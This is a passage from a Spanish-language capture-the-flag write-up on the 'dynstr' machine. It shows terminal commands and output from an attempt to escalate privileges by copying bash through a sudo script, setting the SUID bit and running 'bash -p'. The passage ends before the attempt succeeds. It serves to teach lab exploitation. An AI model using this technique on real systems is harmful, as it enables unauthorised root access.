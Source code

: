 ```bash
bindmgr@dynstr:/tmp/tess$ ls -la /etc/bind/named.bindmgr
total 1172
drwxr-sr-x 2 root bind    4096 Jul 18 21:52 .
drwxr-sr-x 3 root bind    4096 Jul 18 21:52 ..
-rwxr-xr-x 1 root bind 1183448 Jul 18 21:52 bash
-rw-r--r-- 1 root bind      18 Jul 18 21:52 hola.txt
-rw-r--r-- 1 root bind       2 Jul 18 21:52 .version
bindmgr@dynstr:/tmp/tess$ cd /etc/bind/named.bindmgr
bindmgr@dynstr:/etc/bind/named.bindmgr$ ./bash
bindmgr@dynstr:/etc/bind/named.bindmgr$ whoami
bindmgr
```

Bien, ya tenemos el binario `bash` con el **owner** siendo el usuario **root**, pero aun así no logramos una sesión como el :(

---

## Ahora sí, conseguimos ejecutar <u>/bin/bash</u> como el usuario <u>root</u> [📌](#script-suid-done) {#script-suid-done}

PUEEEEEEEEES! Acá ya entran en juego los famosos [**SUID (Set UID)**](https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/), esto lo que hace es indicarle al binario que se ejecute **como el usuario dueño del binario**, más **no como el usuario que ejecute el binario**, eso es lo que esta pasando cuando ejecutamos `./bash`, ya que el que lo ejecuta es **bindmgr** más no **root**.

Para asignarle el permiso **SUID** debemos indicar:

```bash
bindmgr@dynstr:/tmp/tess$ chmod +s bash 
bindmgr@dynstr:/tmp/tess$ ls -la
...
-rwsr-sr-x  1 bindmgr bindmgr 1183448 Jul 18 21:41 bash
...
```

Vemos una **`s`** en los permisos, es el indicativo que ahora es un binario **SUID**, y para ejecutar el bin, pero tomando el **SUID** le indicamos el parámetro `-p`...

Pero claro, cuando lo copiamos pasa algo:

```bash
bindmgr@dynstr:/tmp/tess$ sudo /usr/local/bin/bindmgr.sh
bindmgr@dynstr:/tmp/tess$ ls -la /etc/bind/named.bindmgr
...
-rwxr-xr-x 1 root bind 1183448 Jul 18 22:15 bash
...
bindmgr@dynstr:/tmp/tess$ cd /etc/bind/named.bindmgr
bindmgr@dynstr:/etc/bind/named.bindmgr$ ./bash -p
bindmgr@dynstr:/etc/bind/named.bindmgr$ whoami
bindmgr
```

